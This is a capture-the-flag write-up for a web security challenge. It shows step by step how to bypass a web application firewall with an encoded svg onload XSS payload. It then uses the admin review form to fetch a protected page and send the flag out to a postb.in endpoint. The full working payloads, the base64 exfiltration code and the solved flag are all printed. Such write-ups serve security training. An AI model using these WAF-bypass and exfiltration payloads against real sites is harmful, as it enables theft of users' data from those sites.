 # I Have Caught You Now

## Challenge
* Category: Web Security
* Points: 250

XSS is a thing of the past! Read all about it here: http://challenge.acictf.com:55351

### Hints
* See what happens if you send XSS to the search
* This WAF might make you less secure
* Use parameter names to your advantage


## Solution

### Tools
* [postb.in](https://postb.in/)
* Chrome or Firefox Browser Dev Tools
* https://www.urlencoder.org/
* https://www.base64encode.org/


Browse the website and take note of the different pages and forms. Lets list the areas of interest on the Website
* Our flag is at http://challenge.acictf.com:55351/article/1, but we do not have access to the page containing the flag
* Each page contains a `Search` box in the upper right corner. This is where we will fuzz the WAF (Web Application Firewall)
* There is a page where we submit articles to the admin for review. It is at http://challenge.acictf.com:55351/submit.

Since we do not have an account that can view the obfuscated page containing the flag, we will need to use the submission box in the third bullet to render the page and return to us the flag.

#### Approach
* Enumerate Details about the WAF
* Craft a Workable Payload that Bypasses the WAF
* Submit the Payload to the Admin for Review / Exfiltrate Obfuscated Flag to our postb.in

#### Enumerate Details about the WAF

The following sites have good examples on enumerating WAFs
* https://www.secjuice.com/bypassing-web-application-firewalls-for-cross-site-scripting/
* https://owasp.org/www-community/xss-filter-evasion-cheatsheet

Start by putting some familiar javascript into the Search Box `<script>window.alert('hello world')</script>` and view the WAF's output. We get the response `This Page has been blocked by SecureWAF`. Inspect the page and notice the `search` is in a HTML `<code></code>` block. Since our `<script>...</script>` tags were not included in the code block, we will probably need to obfuscate. Also take a look at the URL `/search?search=%3Cscript%3Ewindow.alert%28%27hello+world%27%29%3C%2Fscript%3E`. Notice the space in `hello world` was replaced with `+` and all of the `%HEX` characters. This is URL Encoding.

Put `<x>` in the Search Box. Notice the WAF did not trigger. The WAF is triggering on script tags and javascript. We will need to encode our payload. However, in order for our payload to execute, we will need to decode it. We also cannot have spaces in the non-base64 parts of our URL. A quick google search for `XSS without spaces` leads us to [this](https://security.stackexchange.com/questions/47684/what-is-a-good-xss-vector-without-forward-slashes-and-spaces) page, which suggests using the `<svg>` tag to run javascript without spaces or slashes.   

Since we will be encoding the payload ourself, we will copy-paste the full URL into the browser rather than paste portions of it into the Search box.

Lets build the testing URL.
Our base url: http://challenge.acictf.com:55351/search?search=1&. We will put `1&` after the search= parameter. The `&` symbol separates parameters in a URL. So we are going to give it a random character `1` and then the next parameter is our payload.

Start url-encoding our payload. Make sure you read the whole response to the [stackexchange](https://security.stackexchange.com/questions/47684/what-is-a-good-xss-vector-without-forward-slashes-and-spaces) article referenced above. We will need to change the `•` in the payload to its proper urlencoded character (hex 0c). Put `<svg•onload=` in [this](https://www.urlencoder.org/) site and hit encode. Change the dot's characters to `0c`. So now we have `%3Csvg%0Conload%3D`.

Next. Lets encode `window.alert('Hello World')` in base64. It becomes `d2luZG93LmFsZXJ0KCdIZWxsbyBXb3JsZCcp`. You can use this website to do the base64 encoding https://www.base64encode.org/.

Now. we need to wrap the above base64 payload in some javascript that will decode the base64. You can play with javascripts `atob` function here https://www.w3schools.com/jsref/met_win_atob.asp

Our wrapped base64 atob function looks like this:
```
"eval(atob(`'+d2luZG93LmFsZXJ0KCdIZWxsbyBXb3JsZCcp+'`))"
```

Finally, we will need to close our original `<svg` tag with an encoded >, which is `%3E`.

Now put it all together

http://challenge.acictf.com:55351/search?search=1&%3Csvg%0Conload%3D"eval(atob(`'+d2luZG93LmFsZXJ0KCdIZWxsbyBXb3JsZCcp+'`))"%3E

Drop that URL into the browser. Hrmm, notice it did not trigger the WAF. Try adding `<script>` to the end to see if we trigger the WAF. This part took me a bit to figure out. We need to add `=<script>` to the end of the URL to trigger the WAF.

Now lets try the whole URL and see if we can run some javascript. Paste the following into the URL and see what happens.
```
http://challenge.acictf.com:55351/search?search=1&%3Csvg%0Conload%3D"eval(atob(`'+d2luZG93LmFsZXJ0KCdIZWxsbyBXb3JsZCcp+'`))"%3E=<script>
```

![alert](images/alert_works.png)

Huzzah! Check out the HTML `<code>` block below. It contains our scipt.

![alert htmml](images/alert_html.png)


#### Craft a Workable Payload that Bypasses the WAF

Now that we tested the WAF above. Lets research some method in javascript to render another webpage. This [site](https://www.freecodecamp.org/news/here-is-the-most-popular-ways-to-make-an-http-request-in-javascript-954ce8c95aaa/) details four methods for making calls to websites in javascript. We will start by modifying the ajax `XMLHttpRequest()` method.

Modify our base code block to use the URL for the website containing the flag.
```javascript
const Http = new XMLHttpRequest();
const url='http://challenge.acictf.com:55351/article/1';
Http.open("GET", url);
Http.send();

Http.onreadystatechange = (e) => {
  console.log(Http.responseText)
}
```

Paste the above code into https://www.base64encode.org/ and click encode. Our resulting payload is
```
Y29uc3QgSHR0cCA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwpjb25zdCB1cmw9J2h0dHA6Ly9jaGFsbGVuZ2UuYWNpY3RmLmNvbTo1NTM1MS9hcnRpY2xlLzEnOwpIdHRwLm9wZW4oIkdFVCIsIHVybCk7Ckh0dHAuc2VuZCgpOwoKSHR0cC5vbnJlYWR5c3RhdGVjaGFuZ2UgPSAoZSkgPT4gewogIGNvbnNvbGUubG9nKEh0dHAucmVzcG9uc2VUZXh0KQp9
```

Now piece together the entire URL and drop it into the browser.
```
http://challenge.acictf.com:55351/search?search=1&%3Csvg%0Conload%3D"eval(atob(`'+Y29uc3QgSHR0cCA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwpjb25zdCB1cmw9J2h0dHA6Ly9jaGFsbGVuZ2UuYWNpY3RmLmNvbTo1NTM1MS9hcnRpY2xlLzEnOwpIdHRwLm9wZW4oIkdFVCIsIHVybCk7Ckh0dHAuc2VuZCgpOwoKSHR0cC5vbnJlYWR5c3RhdGVjaGFuZ2UgPSAoZSkgPT4gewogIGNvbnNvbGUubG9nKEh0dHAucmVzcG9uc2VUZXh0KQp9+'`))"%3E=<script>
```

In your browser's Dev Tools, open the `console` and inspect the output. Below is a screenshot of a portion of the output.

![console](images/console_output.png)

We successfully grabbed the target website and printed its contents to our console. The problem, however, is we do not have an account to view the obfuscated content. So we will need to use their URL submission form to grab the target site for us and return its contents to our postb.in site.

#### Submit the Payload to the Admin for Review / Exfiltrate Obfuscated Flag to our postb.in

Before we modify our payload, we need to build a regex that can extract the flag from the website. I tried to convert the entire site to a string and ship it back to my postb.in endpoint, but was unable to do it. So we will grab just the flag and ship it back.

I am more familiar with pcre. I needed to play around with javascript regex to get the format just right. We will use javascript's `match()` function. I went [here](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/match) and tested a few regex's. We know the flag format is `ACI{something}`. So our regex is `/ACI{.*}/g`

![regex](images/build_regex.png)

Go to https://postb.in/ and Create a bin.

Modify our payload to include the flag regex and the callback to our postb.in endpoint.
```javascript
const Http = new XMLHttpRequest();
const url='http://challenge.acictf.com:55351/article/1';
Http.open("GET", url);
Http.send();

Http.onreadystatechange = (e) => {
    flag = Http.responseText.match(/ACI{.*}/g);
    window.location = 'https://postb.in/1589226090750-2006637025624?flag=' + flag;
}
```

Copy your new payload into https://www.base64encode.org/ and get the new encoded payload. My payload is:
```
Y29uc3QgSHR0cCA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwpjb25zdCB1cmw9J2h0dHA6Ly9jaGFsbGVuZ2UuYWNpY3RmLmNvbTo1NTM1MS9hcnRpY2xlLzEnOwpIdHRwLm9wZW4oIkdFVCIsIHVybCk7Ckh0dHAuc2VuZCgpOwoKSHR0cC5vbnJlYWR5c3RhdGVjaGFuZ2UgPSAoZSkgPT4gewogICAgZmxhZyA9IEh0dHAucmVzcG9uc2VUZXh0Lm1hdGNoKC9BQ0l7Lip9L2cpOwogICAgd2luZG93LmxvY2F0aW9uID0gJ2h0dHBzOi8vcG9zdGIuaW4vMTU4OTIyNjA5MDc1MC0yMDA2NjM3MDI1NjI0P2ZsYWc9JyArIGZsYWc7Cn0=
```

**IMPORTANT NOTE**
My payload contains characters that will error out in the `<svg>` script. I need to replace `=` with its URL encoded character `%3D`. Check your payload for any `+`, `/`, and `=` and switch them out for their URL encoded hex. You can get the encoded characters at https://www.urlencoder.org/

So my fixed payload is:
```
Y29uc3QgSHR0cCA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwpjb25zdCB1cmw9J2h0dHA6Ly9jaGFsbGVuZ2UuYWNpY3RmLmNvbTo1NTM1MS9hcnRpY2xlLzEnOwpIdHRwLm9wZW4oIkdFVCIsIHVybCk7Ckh0dHAuc2VuZCgpOwoKSHR0cC5vbnJlYWR5c3RhdGVjaGFuZ2UgPSAoZSkgPT4gewogICAgZmxhZyA9IEh0dHAucmVzcG9uc2VUZXh0Lm1hdGNoKC9BQ0l7Lip9L2cpOwogICAgd2luZG93LmxvY2F0aW9uID0gJ2h0dHBzOi8vcG9zdGIuaW4vMTU4OTIyNjA5MDc1MC0yMDA2NjM3MDI1NjI0P2ZsYWc9JyArIGZsYWc7Cn0%3D
```

Now let's build the entire URL.
```
http://challenge.acictf.com:55351/search?search=1&%3Csvg%0Conload%3D"eval(atob(`'+Y29uc3QgSHR0cCA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwpjb25zdCB1cmw9J2h0dHA6Ly9jaGFsbGVuZ2UuYWNpY3RmLmNvbTo1NTM1MS9hcnRpY2xlLzEnOwpIdHRwLm9wZW4oIkdFVCIsIHVybCk7Ckh0dHAuc2VuZCgpOwoKSHR0cC5vbnJlYWR5c3RhdGVjaGFuZ2UgPSAoZSkgPT4gewogICAgZmxhZyA9IEh0dHAucmVzcG9uc2VUZXh0Lm1hdGNoKC9BQ0l7Lip9L2cpOwogICAgd2luZG93LmxvY2F0aW9uID0gJ2h0dHBzOi8vcG9zdGIuaW4vMTU4OTIyNjA5MDc1MC0yMDA2NjM3MDI1NjI0P2ZsYWc9JyArIGZsYWc7Cn0%3D+'`))"%3E=<script>
```

Paste this URL into the `Submission` box at the http://challenge.acictf.com:55351/submit endpoint and click `Send Submission`. Go check your postb.in

![flag](images/flag.png)

There it is. The website used its permissions to view the obfuscated page and send us the flag.

**ACI{01cabd1a0620f802c5227970d37}**
